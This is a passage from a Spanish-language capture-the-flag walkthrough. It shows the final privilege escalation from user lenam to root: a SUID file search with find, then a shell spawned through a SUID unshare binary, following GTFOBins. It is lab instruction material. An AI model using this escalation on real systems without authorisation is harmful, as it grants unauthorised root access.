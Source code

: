 Ahora somos el usuario lenam.

## Escalada de privilegios de lenam a root

Buscamos archivos con SUID.

`~$ find / -perm -u=s -type f 2>/dev/null`

![img_p14_1](../../../assets/images/twitx/img_p14_1.png)

y encontramos el archivo `/home/lenam/look/inside/unshare`.

Es un ejecutable utilizado para crear nuevos namespaces y ejecutar programas en ellos, tenemos la opción de escalar privilegios.

Más información:

[https://gtfobins.github.io/gtfobins/unshare/](https://gtfobins.github.io/gtfobins/unshare/)

Entonces ejecutamos:

`~/look/inside$ ./unshare -r /bin/sh`

![img_p14_2](../../../assets/images/twitx/img_p14_2.png)

¡Felicidades, CTF completado!
